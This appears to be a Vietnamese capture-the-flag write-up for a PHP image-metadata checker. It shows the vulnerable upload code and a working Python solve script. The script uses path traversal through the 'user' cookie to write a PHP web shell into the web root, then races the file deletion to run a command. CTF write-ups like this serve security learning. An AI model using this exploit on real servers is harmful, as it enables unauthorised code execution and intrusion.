





#####tl;dr: file upload, php web shell, path traversal, racing?



Source code không có docker, cũng có ít chức năng nên mình chạy trực tiếp luôn (mình sẽ đặt var_dump hoặc echo ở một số chỗ và bỏ phần HTML để tiện cho việc theo dõi trong wu này, phần $uploadpath mình sẽ sửa lại cho tiện với máy hiện tại, không ảnh hưởng nhiều tới đề bài)

```php
<?php
error_reporting(0);
setcookie("user", "BKSEC_guest", time() + (86400 * 30), "/"); // Cookie will be valid for 30 days

if (isset($_FILES) && !empty($_FILES)) {
    // $uploadpath = "/var/tmp/"; // đề gốc
    $uploadpath = "/tmp/";
    $error = "";
    
    $timestamp = time();

    $userValue = $_COOKIE['user'];
    $target_file = $uploadpath . $userValue . "_" . $timestamp . "_" . $_FILES["image"]["name"];
    var_dump($target_file);
    

    move_uploaded_file($_FILES["image"]["tmp_name"], $target_file);
    
    // không cần quan tâm
    if ($_FILES["image"]["size"] > 1048576) {
        $error .= '<p class="h5 text-danger">Maximum file size is 1MB.</p>';
    } elseif ($_FILES["image"]["type"] !== "image/jpeg") {
        $error .= '<p class="h5 text-danger">Only JPG files are allowed.</p>';
    } else {
      $exif = exif_read_data($target_file, 0, true);

      if ($exif === false) {
          $error .= '<p class="h5 text-danger">No metadata found.</p>';
      } else {
          $metadata = '<table class="table table-striped">';
          foreach ($exif as $key => $section) {
              $metadata .=
                  '<thead><tr><th colspan="2" class="text-center">' .
                  $key .
                  "</th></tr></thead><tbody>";
              foreach ($section as $name => $value) {
                  $metadata .=
                      "<tr><td>" . $name . "</td><td>" . $value . "</td></tr>";
              }
              $metadata .= "</tbody>";
          }
          $metadata .= "</table>";
      }
    }
    //
} 
?>
// HTML...
<?php
  // I want to show a loading effect within 1.5s here but don't know how
  sleep(1.5);
  // This might be okay..... I think so
  // My teammates will help me fix it later, I hope they don't forget that
  echo $error;
  echo $metadata;
  unlink($target_file);
?>

// HTML...
```
Sau khi upload. file sẽ được move tới
`$uploadpath . $_COOKIE['user'] . "_" . time() . "_" . $_FILES["image"]["name"]` mà không check chủng gì, vì vậy ta có thể upload file .php, cùng với `$_COOKIE['user']` có thể control => ta có thể path traversal để upload file tới web root mới có thể chạy web shell

Khó khăn nhỏ ở đây có thể là `time()` được nối vào tên file và vị trí của web root, nhưng ta có thể code script chạy là được

Phần `if` sau đó không cần quan tâm do file đã nằm trên server rồi

Sau đó sleep 1.5s và xóa file

=> Vậy ta cần truy cập web shell và chạy lệnh trước khi file bị xóa + biết chính xác tên file


solve.py
```python
import requests
import time

command = "id"

PROXY = {
  "http":"http://127.0.0.1:8010",
  "https":"http://127.0.0.1:8010"
}

url = "http://192.168.116.145:1337"

filename = "clgt.php"

uploadfolders = ["var/www/html/"]
# uploadfolders = ["home/pink/ctf/bkctf2023/web/metadata-checker/metadata-checker/"]
for uploadfolder in uploadfolders:
  timestamp = str(int(time.time()))
  try:
    req = requests.post(
      url = url + "/index.php",
      proxies = PROXY,
      files={
          "image": (filename, f"<?php system('{command}')?>"),
      },
      cookies={
        "user": "../../../../../../" + uploadfolder
      },
      timeout=0.8 # timeout request để gọi shell trước khi bị xóa
      )
  except:
    pass

  req1 = requests.get(
    url = url + "/_" + timestamp + "_" + filename,
    proxies = PROXY,
  )

  if req1.status_code == 200:
    print(uploadfolder)
    print(req1.text)
```

Về phần web root, ban đầu mình định thử một loạt luôn nhưng may mà nó là đường dẫn quen thuộc `/var/www/html` nên ăn luôn phát đầu ♪(´▽｀)


Ở đây mình chạy trên lab luôn, nếu chạy trên server thật thì các bạn có thể upload một cái ảnh trước để căn xem độ lệch của timestamp là bao nhiêu để cộng trừ




hoặc có thể dùng [Picture Metadata webshell](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20Metadata) để vừa check timestamp vừa chạy command luôn





hoặc code đa luồng, tùy